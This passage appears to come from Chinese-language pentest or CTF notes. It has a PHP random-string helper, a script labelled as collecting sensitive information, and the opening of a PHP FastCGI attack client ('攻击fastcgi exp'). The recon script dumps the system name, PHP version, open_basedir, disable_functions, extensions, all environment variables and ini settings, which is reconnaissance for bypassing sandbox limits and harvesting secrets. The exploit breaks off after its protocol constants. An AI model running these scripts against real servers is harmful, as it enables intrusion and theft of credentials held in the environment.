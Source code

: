 ````

function getRandStr($length = 6) {
    $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
    $randStr = '';
    for ($i = 0; $i < $length; $i++) {
        $randStr .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
    }
    return $randStr;
}

```

不大行 php获取敏感信息的脚本：

```php
<?php
printf("System: %s\n",php_uname());
printf("php_version: %s\n",phpversion());
printf("open_basedir: %s\n\n", ini_get('open_basedir'));
printf("disable_functions: %s\n\n", ini_get('disable_functions'));
printf("all_extensions: ");
foreach(get_loaded_extensions() as $key => $value){
   printf("%s ",$value);
}
printf("\n\nENVIRONMENT: ");
foreach(getenv() as $key => $value){
   printf("\n\n%s=%s",$key,$value);
}
foreach(ini_get_all() as $key => $value){
    printf("\n\n%s ==> %s",$key,$value["local_value"]);
}
exit();

```

攻击fastcgi exp:

```php
<?php
class TimedOutException extends Exception {
}
class ForbiddenException extends Exception {
}
class Client {
const VERSION_1 = 1;
const BEGIN_REQUEST = 1;
const ABORT_REQUEST = 2;
const END_REQUEST = 3;
const PARAMS = 4;
const STDIN = 5;
const STDOUT = 6;
const STDERR = 7;
const DATA = 8;
const GET_VALUES = 9;
const GET_VALUES_RESULT = 10;
const UNKNOWN_TYPE = 11;
const MAXTYPE = self::UNKNOWN_TYPE;
const RESPONDER = 1;
const AUTHORIZER = 2;
const FILTER = 3;
const REQUEST_COMPLETE = 0;
const CANT_MPX_CONN = 1;
const OVERLOADED = 2;
const UNKNOWN_ROLE = 3;
````